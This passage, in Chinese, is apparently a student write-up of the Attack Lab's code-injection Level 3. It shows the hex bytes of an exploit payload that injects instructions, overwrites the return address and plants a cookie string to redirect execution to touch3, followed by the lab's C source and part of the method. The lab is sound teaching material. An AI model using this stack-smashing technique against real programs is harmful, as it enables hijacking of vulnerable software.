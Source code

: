 `exploit.txt` 中的内容：

```text
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

#### 3.3 解题思路

与 Level 2 类似，区别在于这次我们需要构造一个字符串，而不是直接传一个整数。需要注意字符串的保存位置。

#### 3.4 解题过程

##### 3.4.0 总览

讲义中给出了函数 `hexmatch` 和 `touch3` 的源代码：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

```c
void touch3(char *sval) {
    vlevel = 3;       /* Part of validation protocol */
    if (hexmatch(cookie,sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

可见需要传入表示 `cookie` 的值的字符串作为参数 `sval`。同时函数 `hexmatch` 的设计使得直接获取用于检验的字符串较为困难，因此我们需要自行构造这个字符串。

##### 3.4.1 查看函数 `touch3` 的地址

在 `ctarget.asm` 中找到函数 `touch3` 对应的汇编语句：

```text
00000000004018fa <touch3>:
  ...
```
